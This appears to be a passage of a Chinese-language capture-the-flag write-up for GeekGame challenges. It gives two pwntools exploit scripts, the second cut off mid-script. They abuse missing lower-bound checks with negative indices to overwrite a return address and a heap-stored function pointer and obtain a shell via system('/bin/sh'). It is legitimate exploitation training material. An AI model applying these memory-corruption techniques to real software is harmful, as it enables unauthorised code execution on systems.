 ```python
from pwn import *
import time

"""
node_tops store all the nodes' top address == next node's key
the stack on main store (key, ??? 12 bytes, siz+24, ??? 4 bytes, data)
"""
p = remote("prob12.geekgame.pku.edu.cn", 10012)
p.sendline("<token>")
time.sleep(1)

win_addr = 0x40122c
p.sendline(b"1")
p.sendline(b"1")
pad = 10
p.sendline(str(pad).encode())
p.sendline(b"AAAA")
time.sleep(0.1)
# p.interactive()

p.sendline(b"1")
p.sendline(b"2")
p.sendline(b"-25")
time.sleep(0.1)
# p.interactive()

padding = 462
payload = cyclic(padding) + p64(0x40101a) + p64(win_addr)  # 0x40101a is `ret` gadget
p.sendline(payload)
p.sendline(b"4")
p.interactive()
```



第二题是它会把函数 edit_node 的指针存在堆上来实现每个节点只能被修改一次的逻辑。我们还是用负数，因为只判断上界不判断下界，可以修改当前指针之前的位置。把第一个节点的 data 存成 "/bin/sh"，第二个节点进行一次修改，修改的时候给一个负数 -104 修改第一个节点的函数指针为 system 的 GOT 还是 PLT entry，然后修改第一个节点就可以执行 system("/bin/sh") 了。

```python
from pwn import *
import time

"""
malloc two kinds of payloads
1. metadata. 40 bytes, include (key, ptr to data malloc, size, addr of edit(at most edit once), ptr to next node)
2. data. malloc by the insert node process, pointed by the metadata.

exploit
Modify the stored address of 'edit' to 'system', and use edit to call system(data, size) with data='/bin/sh'
"""

# p = process("./rtree")
p = remote("prob13.geekgame.pku.edu.cn", 10013)
p.sendline(b"<token>")
time.sleep(1)

edit_addr = 0x4012a4
system_addr = 0x401060
p.sendline(b"1")
p.sendline(b"1")  # key
p.sendline(b"10")
p.sendline(b"/bin/sh")
```